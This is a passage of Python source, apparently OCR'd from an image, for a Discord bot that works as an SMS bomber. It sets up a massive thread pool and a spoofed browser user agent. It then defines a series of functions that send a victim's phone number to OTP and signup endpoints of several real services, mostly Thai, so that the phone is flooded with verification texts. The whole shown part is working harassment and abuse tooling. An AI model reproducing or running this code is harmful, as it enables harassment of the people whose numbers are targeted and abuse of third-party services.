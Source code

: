     "1646",

    "1323",

]

bot = commands.Bot(command_prefix=PREFIX)

bot.remove_command("help")

ThreadPool = ThreadPoolExecutor(max_workers=int(100000000))

useragent = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.40"

class APIsms:

    def sk1(phone):

        post("https://api.myfave.com/api/fave/v3/auth", headers={

             "client_id": "dd7a668f74f1479aad9a653412248b62", "User-Agent": useragent}, json={"phone": f"66{phone}"})

    def sk2(phone):

        post("https://u.icq.net/api/v65/rapi/auth/sendCode", headers={"User-Agent": useragent}, json={"reqId": "39816-1633012470", "params": {

             "phone": f"+66{phone[1:]}", "language": "en-US", "route": "sms", "devId": "ic1rtwz1s1Hj1O0r", "application": "icq"}})

    def sk3(phone):

        post("https://api2.1112.com/api/v1/otp/create",

             headers={"User-Agent": useragent}, data={'phonenumber': phone, 'language': "th"})

    def sk4(phone):

        post("https://ecomapi.eveandboy.com/v10/user/signup/phone",

             headers={"User-Agent": useragent}, data={"phone": phone, "password": "123456789Az"})

    def sk5(phone):

        post("https://api.1112delivery.com/api/v1/otp/create",

             headers={"User-Agent": useragent}, data={'phonenumber': phone, 'language': "th"})

    def sk6(phone):

        post("https://gccircularlivingshop.com/sms/sendOtp", headers={"User-Agent": useragent}, json={

             "grant_type": "otp", "username": f"+66{phone[1:]}", "password": "", "client": "ecommerce"})

    def sk7(phone):

        post("https://shop.foodland.co.th/login/generation",

             headers={"User-Agent": useragent}, data={"phone": phone})

    def sk8(phone):

        post("https://api-shop.diorbeauty.hk/api/th/ecrm/sms_generate_code",
